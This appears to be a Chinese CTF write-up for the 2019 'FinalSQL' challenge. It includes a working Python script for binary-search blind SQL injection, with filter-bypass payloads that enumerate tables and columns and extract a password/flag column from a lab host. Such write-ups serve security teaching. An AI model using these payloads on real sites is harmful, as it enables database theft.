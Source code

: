 ```yaml
---
title: 极客大挑战 2019 FinalSQL
date: 2021-04-18 19:11:51
categories: 
- CTF 
tags: 
- sql注入
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120232228.png
---
```


还是同一场比赛的界面

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210416224503.png)

这次测试了下面的登陆框已经不能用了，无论怎么输入都是同一个回显：**你可别被我逮住了，臭弟弟**，测试上面的序号，注意此时的url中有`?id=`猜测是一个注入点，输入单引号一直报错，但是输入2-1时成功回显，判断是一个**数字型**注入，数字型注入最多遇到的就是结合盲注，接下来是测试盲注的过滤。

发现if、union、and等被过滤，在整个字符串中如果出现空格会被拦下，ord、ascii等转换字符没有被过滤，if被过滤可以使用strcmp函数等代替，空格可以使用括号绕过。

贴出来自己的脚本：

```python
# codeing=utf-8
import requests
import time

url='http://1e069783-5d06-4d70-af82-c457e0d11a52.node3.buuoj.cn/search.php?id='
result=''

for x in range(1, 100):
	high = 127
	low = 32
	mid = (low + high) // 2
	while high>low:
		# sql="(ORD(SUBSTR((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))=%d)"%(i,c)
		# sql = "(ORD(SUBSTR((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)" % (x, mid)
		sql = "(ORD(SUBSTR((select(group_concat(password))from(F1naI1y)where(id=9)),%d,1))>%d)" % (x, mid)
		time.sleep(0.1)
		reponse=requests.get(url+sql)
		if "Click" in reponse.text:
			low=mid+1
		else:
			high = mid
		mid = (low+high)/2

	result += chr(int(mid))
	print(result)

```

我是直接使用了判断字符的返回值1或0作为id的参数，因为使用**group_concat**拼接时字符串有逗号`,`所以字符ascii需要至少从44开始。

下面是查询到的两个表F1naI1y 、Flaaaaag及结构

> F1naI1y  ====>  id,username,password
>
> Flaaaaag  ====> id,fl4gawsl

在第九项可以查得到flag，上面的sql语句已经准备好了。第一个是查询表名的，第二个是查询字段名，第三个是得到flag

